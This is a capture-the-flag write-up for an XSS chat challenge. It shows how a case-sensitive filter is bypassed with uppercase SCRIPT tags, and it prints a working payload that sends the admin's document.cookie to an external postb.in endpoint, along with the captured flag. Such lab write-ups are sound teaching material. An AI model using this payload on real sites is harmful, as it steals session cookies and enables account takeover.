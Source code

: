 # Cookie world order

![img](./assets/cookie-world-order.png)

#### **Given:** web-address https://cwo-xss.web.ctfcompetition.com/

Let's open the web-site:
![img](./assets/cwo-xss-web.png)

If we send a message it immediately appears on the page. It means that admin will see it too.
The name of the site suggests xss vulnerability. Let's try to send `<script></script>`:

![img](./assets/cwo-xss-web-hacker-alert.png)

`Hacker alert` detected :D. So there's at least some filters set up.

After few more tries I noticed that the filter is case-sensitive and `<SCRIPT></SCRIPT>` works :D

Let's set up a [posbin](https://postb.in/) and send a GET request to it with cookies inside:
```
<SCRIPT>cookie=document.cookie;
document.location.href='https://postb.in/1586640527762-2116085726302?cookie='+cookie
</SCRIPT>
```
Check the postbin:
```
cookie:flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};
```

**Flag: CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**